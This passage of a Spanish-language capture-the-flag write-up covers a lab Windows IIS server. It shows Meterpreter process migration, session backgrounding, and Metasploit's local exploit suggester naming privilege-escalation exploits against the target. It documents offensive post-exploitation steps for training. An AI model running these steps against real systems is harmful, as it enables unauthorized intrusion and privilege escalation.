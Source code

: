 ```Python
  1596  396   svchost.exe                                                     
  1708  396   alg.exe                                                         
  1828  2340  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
  1832  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
  1912  396   dllhost.exe                                                     
  2280  1072  cidaemon.exe                                                    
  2308  584   wmiprvse.exe                                                    
  2340  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
  2408  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
  2496  1072  cidaemon.exe                                                    
  2520  1072  cidaemon.exe                                                    
  2892  348   logon.scr  
```
siendo **davcdata.exe** el que usaremos, entonces:

```Python
  meterpreter > migrate 2408
  [*] Migrating from 1828 to 2408...
  [*] Migration completed successfully.
```

Enviamos la sesión a background, para ejecutar el exploit de escalamiento de privilegios.
```Python
  meterpreter > background 
  [*] Backgrounding session 1...
```

#### Privesec

Procedemos a utilizar “Metasploit Local Exploit Suggester”, el cual, verificará y entregará vulnerabilidades locales que podemos explotar desde la sesión obtenida anteriormente.
```Python
  msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester
```
Revisión de opciones.
```Python
  msf5 post(multi/recon/local_exploit_suggester) > show options 

  Module options (post/multi/recon/local_exploit_suggester):

  Name             Current Setting  Required  Description
  ----             ---------------  --------  -----------
  SESSION                           yes       The session to run this module on
  SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
```
Configuración de opciones.
```Python
  msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
  SESSION => 1
```
Ejecución de “Metasploit Local Exploit Suggester”.
```Python
  msf5 post(multi/recon/local_exploit_suggester) > run

  [*] 10.10.10.15 - Collecting local exploits for x86/windows...
  [*] 10.10.10.15 - 29 exploit checks are being tried...
  [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
```